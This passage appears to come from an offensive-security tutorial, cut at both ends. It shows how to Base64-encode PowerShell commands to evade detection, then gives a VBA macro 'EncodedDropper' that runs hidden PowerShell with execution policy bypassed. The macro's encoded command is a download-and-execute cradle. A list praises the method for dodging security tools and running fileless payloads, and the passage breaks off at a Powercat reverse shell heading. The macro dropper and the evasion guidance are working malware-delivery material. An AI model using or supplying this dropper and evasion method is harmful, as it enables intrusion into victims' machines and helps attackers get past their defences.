 - PowerShell’s `-EncodedCommand` parameter **expects Unicode encoding**, so we encode the string as Unicode.

**3. Encode the bytes in Base64**:

```
$encodedCommand=[Convert]::ToBase64String($bytes)
```

- This obfuscates the original command, **bypassing basic string-based detections**.

**4. Output the encoded command**:

```
Write-Output $encodedCommand
```

- Example **Base64-encoded output**:

```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAA...
```

* * *

#### 2. VBA Macro for Executing Encoded PowerShell Command

```
Sub EncodedDropper()
    Dim dropper As Object
    Dim encodedCommand As String
    Set dropper = CreateObject("WScript.Shell")
    encodedCommand = "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAA..."
    dropper.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand " & encodedCommand, 0, False
End Sub
```

**Step-by-Step Breakdown**

1. **Creates a** `WScript.Shell` **object** to execute system commands.
2. **Stores the Base64-encoded command in the** `encodedCommand` **variable**.
3. **Runs PowerShell in hidden mode (**`0` **parameter)**, bypassing execution policies.
4. **Executes the Base64-encoded command** using `-EncodedCommand`.

**Advantages of This Technique**

- **Bypasses command-line security tools** that scan for suspicious PowerShell commands.
- **Avoids string-based detections** for `IEX`, `DownloadString`, or `Invoke-WebRequest`.
- **Executes a fileless payload in memory**, making detection harder.

* * *

### Powercat Reverse Shell

The **PowerCat** function executes a **PowerShell reverse shell** using `powercat.ps1`.

**Breakdown of the** `powercat` **Subroutine**

